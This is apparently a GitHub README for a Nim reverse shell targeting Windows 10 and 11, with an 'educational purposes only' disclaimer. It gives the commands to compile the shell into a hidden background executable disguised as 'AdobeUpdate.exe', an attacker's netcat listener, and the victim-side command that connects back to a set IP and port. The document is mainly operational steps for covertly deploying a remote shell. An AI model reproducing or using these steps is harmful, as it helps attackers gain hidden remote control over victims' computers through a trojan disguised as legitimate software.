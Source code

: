 # Nim Reverse Shell

A simple reverse shell written in Nim (see the "Tested Operating Systems" section below for more details). **This code is made for educational purposes only**.


## Tested Operating Systems

- Windows 10 (10.0.19045) 
- Windows 11 (10.0.22621)


### Installation

```bash
sudo apt install mingw-w64
sudo apt install nim
```

The code can be compiled in various ways using Nim. In this example, the code is compiled to EXE using MinGW and runs in the victim's background once executed (thanks to the "--app:gui" flag). Update IP and port

```bash
nim c -d:mingw --app:gui --opt:speed -o:AdobeUpdate.exe rev-shell.nim
```
#### Parameters
*-d: define compiler
*--app: generate gui app
*--opt: optimize for speed
*-o: output
### Execution
Cybersecurity professional
```bash
nc -lvnp 1337
```
Target System
```bash
AdobeUpdate.exe 10.10.5.25 1337              --defaults to static IP in code if no arguments given
```




